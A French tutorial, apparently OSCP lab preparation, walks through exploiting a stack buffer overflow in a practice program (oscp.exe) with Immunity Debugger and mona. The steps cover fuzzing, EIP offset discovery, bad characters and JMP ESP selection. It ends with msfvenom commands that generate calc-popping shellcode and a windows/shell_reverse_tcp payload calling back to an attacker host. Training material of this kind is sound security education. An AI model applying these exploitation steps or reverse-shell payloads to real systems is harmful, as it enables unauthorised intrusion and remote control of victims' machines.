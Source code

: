 ```ad-note
Dans Immuniyy Debugger, on peut retourner à l'affichage principale en cliquant sur l'onglet **Window --> CPU**
Il faut lancer les scripts avec PYTHON3
```


## Mona Configuration
##### Installation de mona
https://github.com/corelan/mona
Mettre mona.py dans le répertoire:
`C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands`

### Mona Configuration
Configuration du working folder :
```
!mona config -set workingfolder c:\mona\%p
```
![image](https://user-images.githubusercontent.com/93264654/206850048-908612fa-1de5-479b-8562-db6bb5a950f2.png)

Cette commande permet de créer un dossier qui sera utilisé par mona pour placer les logs/outputs.

## Lancement du programme dans Immunity

Une fois sur Immunity et mona configuré, on lance le programme en allant dans :
`File -> Open -> Desktop -> vulnerable-apps -> oscp -> oscp.exe`

![image](https://user-images.githubusercontent.com/93264654/206851817-91bf3925-ac69-4da4-a745-7aad4fe36821.png)

Puis on le démarre en cliquant sur le bouton **play**

![image](https://user-images.githubusercontent.com/93264654/206851828-e119ff91-0c74-43e9-915a-23c1e843ea57.png)



## Lister les commandes

On se connecte à l'application avec `nc -nv IP Port` puis on essaie de voir qu'elle sont les commandes de l'application qui nous permettent d'envoyer des données.

## 1 - Fuzzing

La première étape est de déterminer la commande vulnérable en faisant crash l'application.
Dans le script **fuzzer.py** on modifie l'**IP** et le **Port**, ainsi que le **Prefix**.
On attache et lance l'application dans Immunity puis on exécute le script.
On note l'offset trouvé, dans la capture ci-dessous on voit que l'application crash à 2000 octets, cela signifie que la **Return Address** est située entre **1900** et **2000** octets.

![image](https://user-images.githubusercontent.com/93264654/206849473-34be38ee-5209-4b2f-b9c1-78e4db61c0ba.png)

On redemarre l'application

![image](https://user-images.githubusercontent.com/93264654/206851859-3e77a2ff-b5bd-4d56-8466-a2e15bbcb36e.png)

## 2 - Offset

Pour trouver l'**EIP**, On génère un paterne avec metasploit de 400 octets de plus que le crash (le crash était à 2000 octets, donc on génère 2400 caractères) :
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```

Mettre l'output dans la variable **payload** de **exploit.py** et exécuter le script (ne pas oublier d'abord de restart l'application dans Immunity).

![image](https://user-images.githubusercontent.com/93264654/206849907-e2a0571d-2fbe-4ddd-9c5c-f139a7bb0c4e.png)



Lorsque l'application crash :
- on note la valeur de EIP en faisant **clic droit sur la valeur de l'EIP --> copy selection to Clipboard**

Puis on récupère l'offset de l'EIP avec la commande : 

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <valeur_de_EIP>
```

On peut aussi trouver l'offset EIP et ESP avec la commande : `!mona findmsp -distance 2400`
![image](https://user-images.githubusercontent.com/93264654/206849981-248be463-8efc-4f66-90b7-cf1f644122ce.png)


On note la valeur de l'offset retournée par cette commande dans la variable **offset** du script **exploit.py**.
On éfface le contenu de la variable **payload**.

![image](https://user-images.githubusercontent.com/93264654/206850260-f842aa1c-0da2-4e2a-94f5-003a24eb9422.png)


## 3 - Control the EIP

Cette étape consiste à vérifier si l'offset trouvé est le bon, en écrivant une suite de caractères B dans l'EIP.
On met dans la variable **retn** de **exploit.py** `retn="BBBB"`


On exécute le script.

Dans Immunity si l'EIP contient une suite de caractères B (/x42 en hex), alors l'offset trouvé est le bon.

## 4 - Bad Chars

A présent, nous allons rechercher les mauvais caractères.

On créer dans mona une liste de caractères en excluant directement le null byte x00 qui est bad chars par défaut (Il correspond au caractère ASCII fin de string)

```
!mona bytearray -cpb "\x00"
```
On exécute le script **genere.py** et on colle le  résultat dans la variable **payload** du script **exploit.py**

![image](https://user-images.githubusercontent.com/93264654/206850775-413305a6-92a4-43f6-be2a-133bf842127d.png)

On redémarre le programme dans Immunity puis on exécute **exploit.py**.

Une fois le programme crash, on va regarder les cractères manquant dans la stack afin de déterminer les mauvais cractères. On utilise dans Immunity la commande :

```
!mona compare -a ESP -f C:\mona\oscp\bytearray.bin
```
Cette commande permet de comparer la liste de caractère généré par mona avec les caractères présents dans la stack.

Dans l'exemple, mona nous retourne le cractères hexa \x07. Il nous indique aussi que la caractères \x00 à été omis du résultat (nous l'avons exclus précédemment).

![image](https://user-images.githubusercontent.com/93264654/206851003-3b808f4a-66ff-49c8-8998-fdcb981482ed.png)

On note sur un bloc note le cractère \x07.

On régénère avec mona nouveau avec mona un **bytearray** en excluant le bad chars trouvé \x07 :

```
!mona bytearray -cpb "\x00\x07"
```

Puis on supprime dans la variable **payload** du script **exploit.py** le mauvais caractères "\x07"
![image](https://user-images.githubusercontent.com/93264654/206851073-481feb33-94e1-4112-b50f-96181735487e.png)

On repette l'opération jusqu'à ce que mona nous affiche que rien n'est changé.
Si il n'y a plus de badchars, mona doit afficher un statuts **unmodified** et on doit avoir un message dans la console qui dit :  **!!! Hoooray, normal shellcode unmodified !!!**

![image](https://user-images.githubusercontent.com/93264654/206851102-8e59fa84-c637-4d1d-b1f5-0ba6061588dc.png)

### b. Recherche d'un JMP ESP

On demande à mona de trouver une instruction **JMP ESP** qui permet au processeur d'exécuter ce que nous avons mis dans le stack. 

Il faut que l'adresse du JMP ESP ne contienne pas de badchars, on va les exclure lors de la recherche.

On fait crash le programme avec **exploit.py** puis on tape dans Immunity :

```
!mona jmp -r esp -cpb "\x00\x07"
```
Il faut choisir un JMP ESP avec toutes les protections en **False** et qu'il soit de préférence dans une DLL.

Dans notre exemple, on prend le JMP ESP 0x625011c7

![image](https://user-images.githubusercontent.com/93264654/206851283-1ad1a114-7170-4d9a-ad7e-c9ee563bc83c.png)

On rentre l'adresse du JMP ESP dans la variable **retn** du script **exploit.py.
Il faut entrer l'adresse à l'envers car le 32bits utilise du **little endian**.

\x62\x50\x11\xc7 devient : \xc7\x11\x50\x62

![image](https://user-images.githubusercontent.com/93264654/206851449-84d4f656-cc75-4de4-aa6d-ce47c97978cb.png)




## 6 - Pop calc

On va confirmer l'execution de code sur la victime en essayant de lancer une calculatrice. Cela peut être utilisé pour validé le contenu de l'exploit.

On génère un shellcode avec msfvenom qui permet de pop une calculatrice :
```
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -b "<badchars>" -f c

Dans notre exemple cela donne :
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -b "\x00\x07" -f c
```

On copie le résultat dans la variable **payload** de **exploit.py** en l'entourant avec des parenthèses.

![image](https://user-images.githubusercontent.com/93264654/206851570-07600e30-f60c-47e8-bba5-36b8e26243bb.png)

On ajoute aussi dans la variable **pading** `"x90" * 16`

![image](https://user-images.githubusercontent.com/93264654/206851582-a08273c2-cee0-4ad8-9c30-c8a3b4e82a5a.png)

On exécute le script, une calculatrice devrait pop sur la machine victime.

## 7 - Reverse Shell

Maintenant, on peut craft n'importe quel shellcode du moment qu'on respecte les bad chars.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP_KALI> LPORT=4444 EXITFUNC=thread -b "<badchars>" -f c

Dans notre exemple :
msfvenom -p windows/shell_reverse_tcp LHOST=<IP_KALI> LPORT=4444 EXITFUNC=thread -b "\x00\x07" -f c
```

On copie le résultat dans la variable **payload** de **exploit.py** en l'entourant avec des parenthèses.

![image](https://user-images.githubusercontent.com/93264654/206851570-07600e30-f60c-47e8-bba5-36b8e26243bb.png)

Il ne reste plus qu'a exécuter **exploit.py** pour obtenir un reverse shell.
